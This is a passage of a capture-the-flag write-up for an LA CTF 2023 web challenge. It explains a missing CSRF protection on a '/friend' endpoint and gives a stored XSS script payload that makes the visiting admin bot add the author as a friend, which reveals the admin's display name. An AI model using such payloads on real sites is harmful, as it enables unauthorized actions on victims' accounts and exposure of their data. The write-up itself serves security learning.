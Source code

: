 ![](https://github.com/siunam321/CTF-Writeups/blob/main/LA-CTF-2023/images/Pasted%20image%2020230211131919.png)

It worked in the `/post/<uuid>`!

Alright, let's take a step back.

In `/`, we can add a friend to metafriends. However, when we add someone to metafriend, we won't see him/her username and display name.

**To see that, he/she MUST add a friend to us!**

***Armed with above information, we can craft a payload that when the admin bot visit, it'll send a POST request to `/friend`, with parameter `username=<your_username>`. That way, we can see it's display name!!*** This can happen is because it doesn't have any CSRF protection!

**Payload:**
```html
<script>
    // Wait the window is fully loaded
    window.onload = function (){
        var username = 'siunam';

        // Construct the require POST parameters
        var data = 'username=' + encodeURIComponent(username);

        // Add our username to friend list upon visit
        fetch('https://metaverse.lac.tf/friend',
            {
                method: 'POST',
                mode: 'no-cors',
                body: data,
                headers: {
                    "Content-Type": "application/x-www-form-urlencoded",
                }
            }
        )
    };
</script>
```

**Let's copy and paste that to the metapost, and create it!**
